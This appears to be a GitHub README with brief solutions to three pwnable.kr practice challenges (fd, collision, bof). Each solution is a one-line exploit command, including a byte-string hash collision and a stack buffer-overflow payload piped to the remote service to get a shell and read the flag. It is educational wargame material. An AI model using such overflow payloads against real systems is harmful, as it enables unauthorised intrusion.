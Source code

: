 # [Pwnable.kr](http://pwnable.kr/) (Pictures)  
Account created but only 6 challenges completed as yet

Four categories of challenges

1. [Toddler's Bottle]  -  very easy challenges with simple mistakes.
1. [Rookiss]  -  typical bug exploitation challenges for rookies.
1. [Grotesque]  -  these challenges are grotesque-y. painful to solve it, but very tasty flag :)
1. [Hacker's Secret]  -  intended solution for these challenges involves special techniques.

## Toddler's Bottle

### [fd]

`ssh fd@pwnable.kr -p2222`  

You need to pass the binary a value such that it reads from fd 0, then send it the expected string for it to match when 'strcmp'ing it.  

`echo "LETMEWIN" | ./fd 4660`

### [collision]

`ssh col@pwnable.kr -p2222`  

You need to pass it a 20char password such that when each set of 4 chars, taken as a int, are added together, you get the hashcode value.  Note that null chars will terminate the string early.

`./col $'\xc9\xce\xc5\x06\xc9\xce\xc5\x06\xc9\xce\xc5\x06\xc9\xce\xc5\x06\xc8\xce\xc5\x06'`

### [bof]

`nc pwnable.kr 9000`

You need to overflow the buffer and change the 'key' value that's further up the stack (remember stack goes from high to low). Unfortunately, there's other stuff between the overwritable buffer and the key (such as the return address, saved pointers, etc).  Best approach is to download the binary and debug it in gdb. (Ideally with either [GEF](http://gef.rtfd.io) or [pwndbg](http://pwndbg.com) loaded!).  If you happen to be running on a non-Linux box (and just want to try it before spinning up a VM), you might try blatting the stack with a series of '\xbe\xba\xfe\xca' (0xcafebabe in little-endian).  Trial and error showed that 6 of them didn't get the "Nah.." message, so adding a `;cat` to echo the output gave the following, which can be used to cat the flag...

`(python -c "print 32*'A'+'\xbe\xba\xfe\xca'*6";cat) | nc pwnable.kr 9000`  

(I really should take some time to have a look at [pwntools](http://pwntools.com) rather than doing this all manually! :-))
